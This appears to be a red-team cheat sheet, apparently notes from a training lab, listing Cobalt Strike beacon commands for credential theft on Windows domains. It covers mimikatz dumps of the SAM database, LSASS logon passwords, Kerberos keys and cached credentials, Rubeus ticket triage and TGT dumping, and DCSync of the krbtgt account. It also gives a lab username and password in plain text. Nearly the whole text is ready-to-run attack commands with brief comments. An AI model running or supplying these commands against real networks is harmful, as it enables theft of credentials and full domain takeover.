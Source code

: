 # Credential Theft

### "!" symbol is used to run command in elevated context of System User
### "@" symbol is used to impersonate beacon thread token

# Dump the local SAM database 

    beacon> mimikatz !lsadump::sam

# Dump the logon passwords (Plain Text + Hashes) from LSASS.exe for currently logged on users

    beacon> mimikatz !sekurlsa::logonpasswords

# Dump the encryption keys used by Kerberos of logged on users (hashes incorrectly labelled as des_cbc_md4)

    beacon> mimikatz !sekurlsa::ekeys

# Dump Domain Cached Credentials (cannotbe be used for lateral movement unless cracked)

    beacon> mimikatz !lsadump::cache

# List the kerberos tickets cached in current logon session or all logon session (privileged session)

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump the TGT Ticket from given Logon Session (LUID)

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt

# DC Sync

    beacon> make_token DEV\nlamb F3rrari
    beacon> dcsync dev.cyberbotic.io DEV\krbtgt

# Dump krbtgt hash from DC (locally)

    beacon> mimikatz !lsadump::lsa /inject /name:krbtgt
